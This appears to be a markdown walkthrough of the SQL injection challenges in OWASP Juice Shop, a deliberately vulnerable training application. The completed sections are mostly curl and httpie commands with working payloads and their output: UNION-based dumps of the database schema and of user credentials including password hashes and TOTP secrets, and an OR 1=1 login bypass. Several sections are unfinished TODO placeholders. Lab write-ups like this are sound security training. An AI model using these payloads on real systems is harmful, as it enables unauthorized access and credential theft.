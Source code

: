 # Injection

Resources

* [SQL injection](https://portswigger.net/web-security/sql-injection)

## Reconnaissance

Intercept all requests with burp and look for a request with parameters to fuzz
```bash
# send to intruder
#GET /rest/products/search?q=';

# sql injection vulnerability
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo';" | jq
# output
{
  "error": {
    "message": "SQLITE_ERROR: near \";\": syntax error",
    "stack": "Error: SQLITE_ERROR: near \";\": syntax error",
    "errno": 1,
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%foo';%' OR description LIKE '%foo';%') AND deletedAt IS NULL) ORDER BY name"
  }
}
```

## Order the Christmas special offer of 2014

```bash
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=2014%'+AND+deletedAt+IS+NOT+NULL));--" | jq

# with firefox or burp edit and send a POST request with ProductId=10
# http://box-owasp-juice-shop-0eruj:3000/api/BasketItems
# {"ProductId":10,"BasketId":"6","quantity":1}
```

## Exfiltrate the entire DB schema definition via SQL Injection

```bash
# Products table has 9 columns (see json above)
# to fix "SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns"
# add N static columns in order to match them
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo%'))+UNION+SELECT+name,sql,'a','b','c','d','e','f','g'+FROM+sqlite_master+WHERE+type='table';--" | jq '.data | map({"id":.id,"name":.name})'
```

## Log in with the (non-existing) accountant without ever registering that user

```bash
http http://box-owasp-juice-shop-<RANDOM>:3000/rest/user/login email=\' password=foo
# output
{
    "error": {
        "message": "SQLITE_ERROR: near \"acbd18db4cc2f85cedef654fccc4a4d8\": syntax error",
        "name": "SequelizeDatabaseError",
        "original": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "parameters": {},
        "parent": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL",
        "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)"
    }
}

http http://box-owasp-juice-shop-<RANDOM>:3000/rest/user/login email="acc0unt4nt@juice-sh.op' OR 1=1--"
```

## Log in with the administrator's user account

```bash
TODO
```

## Log in with Bender's user account

```bash
TODO
```

## Log in with Jim's user account

```bash
TODO
```

## Let the server sleep for some time

```bash
TODO
```

## All your orders are belong to us

```bash
TODO
```

## Update multiple product reviews at the same time

```bash
TODO
```

## Infect the server with juicy malware by abusing arbitrary command execution

```bash
TODO
```

## Retrieve a list of all user credentials via SQL Injection

```bash
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo%'))+UNION+SELECT+id,username,email,password,role,deluxeToken,totpSecret,isActive,createdAt+FROM+Users;--" | jq '.data'
```

